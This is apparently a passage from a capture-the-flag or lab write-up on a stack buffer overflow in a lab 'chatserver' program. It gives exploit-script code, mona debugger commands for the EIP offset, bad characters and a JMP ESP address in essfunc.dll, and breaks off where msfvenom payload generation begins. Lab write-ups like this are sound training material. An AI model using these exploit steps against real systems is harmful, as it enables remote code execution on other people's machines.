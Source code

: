 ```python
try:
  s.connect((ip, port))
  s.send(bytes(username + "\r\n", "latin-1"))
  s.recv(1024)
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

* Now, always restart chatserver in Immunity Debugger before running the exploit script - running the exploit crashes the program.

* In the command box in the debugger, we can run the following command:

  ```!mona findmsp -distance 2400```

* This gives us the EIP offset with the message ```EIP contains normal pattern``` - we have EIP offset 2012.

* As a proof of concept, in the exploit script, we can edit values of offset to 2012 and retn to "BBBB" - now the EIP register is filled with 42424242 - so it works.

* We have to generate bytearray using mona now:

  ```!mona bytearray -b "\x00"```

* We have to generate a list of badchars similar to bytearray using another script:

```python
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

* Copy the output of the badchars script and paste it as value of payload variable in the exploit script, and run it again.

* This time, in order to find badchars, we need to run mona command which includes the ESP register value:

  ```!mona compare -f C:\mona\chatserver\bytearray.bin -a 00DFEEA8```

* In the comparison window we can see the message 'unmodified' - this means only nullbyte (\x00) is badchar.

* Now, we need to find a file inside .exe without memory protection mechanisms such as ASLR and DEP - we have the essfunc.dll file as well.

* So, we can check this using:

  ```!mona modules```

* The output shows modules of .exe - we have to look for .dll file with all properties as 'False', and essfunc.dll has all values as 'False'.

* Now, we can check for jump point in essfunc.dll:

  ```!mona jmp -r esp -m essfunc.dll```

* We get 9 pointers - we can try for the first one '625014DF'

* As it is a x86 system, it uses little-endian system, and therefore the address would be "\xdf\x14\x50\x62"

* Now, we need to generate payload using ```msfvenom``` - the jump point address is used here.
  ```